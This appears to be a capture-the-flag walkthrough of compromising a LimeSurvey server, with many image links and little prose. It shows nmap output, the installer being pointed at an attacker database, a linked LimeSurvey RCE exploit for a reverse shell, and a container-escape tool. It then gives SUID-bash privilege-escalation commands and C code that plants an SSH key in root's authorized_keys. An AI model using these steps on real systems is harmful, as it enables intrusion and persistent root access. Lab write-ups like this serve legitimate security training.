










# Enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e9:51:db:ce:d7:b5:54:d4:76:26:d1:32:83:f3:89:8a (ECDSA)
|_  256 03:ec:bc:3c:5c:c7:2b:46:8b:a6:f0:a7:f7:b0:58:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.56
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.56 (Debian)
```

Using gobuster:

There is a limesurvey installer on `/survey`



Now trying to install limesurey with our host as the database.

Editing `/etc/mysql/mariadb.conf.d/50-server.cnf`
```
bind-address            = 0.0.0.0
```
so that it is available in all interfaces

To start mysql service:
```
service mysqld start
```

Then connect to mysql:

Now we have created the database and completed the setup:

Now using this exploit:
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE/tree/main
and changing config.xml so that the version matches we get a reverse shell:


Now checking env variables:

We can use the password to switch to root and to login through ssh to limesvc user.

Now we can use:
https://github.com/cdk-team/CDK

Now this is unusual af

Being root, and heading to the web path **==/var/www/html/survey==** if we create a test file: hello.txt and then verify with the user limesvc that we are via SSH, in  **==/opt/limesurvey==**, is assembled the same website. And we see that the file created hello.txt is with  ROOT permits:

So dropping a bash file with SUID:
`cp /bin/bash .`
`chmod u+s ./bash`
Now executing it with `./bash -p`


Or use:
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <unistd.h>

int main()
{
    const char *sshPublicKey = "ssh-rsa <REDACTED>";
    const char *sshDirectory = "/root/.ssh";
    const char *authorizedKeysPath = "/root/.ssh/authorized_keys";

    if (geteuid() != 0)
    {
        perror("[x] Error: Program not running as root.\n");
        return 1;
    }

    printf("[+] Running as root!\n");

    if (mkdir(sshDirectory, 0700) != 0)
    {
        perror("[x] Error creating directory. Skipping...\n");
    }

    FILE *file = fopen(authorizedKeysPath, "a");

    if (file == NULL)
    {
        perror("[x] Error opening file\n");
        return 1;
    }

    if (fprintf(file, "%s\n", sshPublicKey) < 0)
    {
        perror("[x] Error writing to file\n");
        fclose(file);
        return 1;
    }

    fclose(file);

    printf("[+] SSH public key successfully added to %s\n", authorizedKeysPath);

    return 0;
}

```